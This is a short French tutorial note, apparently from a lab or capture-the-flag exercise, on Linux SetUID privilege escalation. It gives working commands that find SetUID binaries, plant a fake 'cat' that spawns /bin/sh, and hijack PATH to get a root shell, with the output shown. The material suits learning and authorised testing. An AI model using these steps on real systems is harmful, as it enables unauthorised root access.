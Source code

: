 # SetUID Privilege escalation

[Lien d'explication du mécanisme d'élévation de privilèges](https://blog.creekorful.org/2020/09/setuid-privilege-escalation/)

SetUID = Set Owner User ID

Il s'agit d'un bit positionné sur un fichier qui permet à tout processus de lancer ce fichier comme si il s'agissait du propriétaire du fichier.

Par exemple, si root est propriétaire du fichier toto avec un setuid positionné, robert pourra lancer le fichier toto en tant que root sans faire partie des sudoers.

Le mécanisme d'élévation de privilèges est le suivant :

* Identifier si un binaire "maison" utilise le SetUID (les binaires par défaut Linux ne sont en général pas vulnérables)

Commande pour énumérer tous les fichiers avec un setuid :

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 16728 Sep  1 19:06 /usr/bin/bugtracker
```

* Exécuter ce binaire et voir s'il fait appel à d'autres binaires sans préciser l'arborescence complète : par exemple, `cat` au lieu de `/usr/bin/cat`
* Créer un binaire malveillant qui comporte uniquement un shell

```bash
mkdir /tmp/foo
echo /bin/sh > /tmp/foo/cat
chmod 755 /tmp/foo/cat
```

* Ecraser la variable $PATH pour que le binaire soit appelé en priorité dans notre répertoire malveillant

```bash
PATH=/tmp/foo:$PATH /usr/bin/bugtracker
```

* Utiliser le shell en tant que root

```bash
# id                                                                                                                                                                                                                                                                          
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker) 
```
